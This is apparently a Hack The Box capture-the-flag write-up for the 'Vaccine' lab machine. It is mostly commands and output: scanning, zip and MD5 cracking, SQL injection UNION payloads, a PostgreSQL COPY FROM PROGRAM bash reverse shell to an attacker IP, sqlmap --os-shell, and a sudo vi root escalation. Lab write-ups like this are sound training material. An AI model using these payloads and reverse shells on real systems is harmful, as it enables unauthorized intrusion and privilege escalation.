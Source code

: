 ## ------------------->> Vaccine <<-------------------

// We will start with scanning using nmap

    $ nmap -sV -A -Pn 10.10.10.46 -p-
    Nmap scan report for 10.10.10.46
    Host is up (0.23s latency).
    Not shown: 65532 closed ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
    |   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
    |_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: MegaCorp Login
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
// we got 3 services running (FTP,SSH,HTTP). since we got credentials from last box(Oopsie), we can try to connect to FTP 

    ftp -p 10.10.10.46 
    ftpuser : mc@F1l3ZilL4
// we locate file called backup.zip in the ftp shared directory, lets grab him

    ftp> ls
    227 Entering Passive Mode (10,10,10,46,39,53).
    150 Here comes the directory listing.
    -rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
    226 Directory send OK.

    ftp> get backup.zip
// its seems that file have password, lets crack the password using john

    $ zip2john backup.zip > hash
    $ john hash --fork=4 -w=/wordlist.txt
    backup.zip password : 741852963

// we got file called index.php

	index.php -> login admin password_md5 : "2cb42f8734ea607eefed3b70af13bbd3"
// decode the hash using online md5 decoder https://www.md5online.org/
![Image 1](https://github.com/W0lfySec/HTB/blob/main/Images/Vaccine/Screenshot_2021-07-31_14_10_35.png)

	"2cb42f8734ea607eefed3b70af13bbd3" -> qwerty789

// login to http://10.10.10.46/ with credentials 'admin : qwerty789' get us to car catatlog with a search bar
when i search for 'a' i can see that url changes to http://10.10.10.46/dashboard.php?search=a when i try to insert quots i get an error:

	ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
// now we can see that the server is vulnerable for sql injection
source: https://portswigger.net/web-security/sql-injection/union-attacks
// when we got the Error 
	
	ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
// we can see that we have a table called 'cars', to find how many columns are in that table we can inject :

	' ORDER BY 1--
// and increase the number(1 to 2 and 3 ...) 
// all works till ' ORDER BY 5--

	ERROR: syntax error at or near "BY5" LINE 1: Select * from cars where name ilike '%' ORDER BY5--%' ^
// now we will submitting a series of UNION SELECT payloads specifying a different number of null

    ' UNION SELECT 'a', NULL, NULL, NULL, NULL -- : 
	ERROR: invalid input syntax for integer: "a" LINE 1: ...ect * from cars where name ilike '%' UNION SELECT 'a', NULL,... ^
    ' UNION SELECT NULL, 'a', NULL, NULL, NULL -- : VALID
    ' UNION SELECT NULL, NULL, 'a', NULL, NULL -- : VALID
    ' UNION SELECT NULL, NULL, NULL, 'a', NULL -- : VALID
    ' UNION SELECT NULL, NULL, NULL, NULL, 'a' -- : VALID

// Insert:

	' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --
// set a listiner

	$ rlwrap nc -lvnp 1444
// Insert:

	'; CREATE TABLE cmd_exec(cmd_output text); --
	'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.16.7/1444 0>&1'''; --
// we got a shell!

	$ rlwrap nc -lvnp 1444
	listening on [any] 1444 ...
	connect to [10.10.16.7] from (UNKNOWN) [10.10.10.46] 41756
	bash: cannot set terminal process group (11360): Inappropriate ioctl for device
	bash: no job control in this shell
	postgres@vaccine:/var/lib/postgresql/11/main$ whoami
	whoami
	postgres
	postgres@vaccine:/var/lib/postgresql/11/main$ 

![Image 2](https://github.com/W0lfySec/HTB/blob/main/Images/Vaccine/Screenshot_2021-07-31_13_41_32.png)

// There is another way to automate this process with using sqlmap tool

	$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=eig0j4h3v77v8prj79sug2hu50" --dump-all --tamper=space2comment
// and then

	sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=eig0j4h3v77v8prj79sug2hu50" --os-shell

// upgrade connection with nc listiner on port 1234

	bash -c 'bash -i >& /dev/tcp/10.10.16.7/1234 0>&1'

// upgrade nc shell

	SHELL=/bin/bash script -q /dev/null
// Now when we got shell lets dig in www/ directory

	postgres@vaccine:/var/www/html$ cat dashboard.php

	try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}

// now we can upgrade our shell

	postgres@vaccine:$ python3 -c "import pty;pty.spawn('/bin/bash')"
	P@s5w0rd!
// Or just connect SSH

	ssh postgres@10.10.10.46
	P@s5w0rd!


// we can see that we root privilleged with vi to 'pg_hba.conf' configuration file

	postgres@vaccine:~$ sudo -l
	[sudo] password for postgres: 
	Matching Defaults entries for postgres on vaccine:
	    env_reset, mail_badpass,
	    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User postgres may run the following commands on vaccine:
	    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
// Run that file with sudo
	    
	postgres@vaccine:~$ sudo vi /etc/postgresql/11/main/pg_hba.conf 
// Enter

	root@vaccine:/var/lib/postgresql# id
	uid=0(root) gid=0(root) groups=0(root)
// we got the flag

	root@vaccine:~# cat root.txt
	dd6e058e8.................
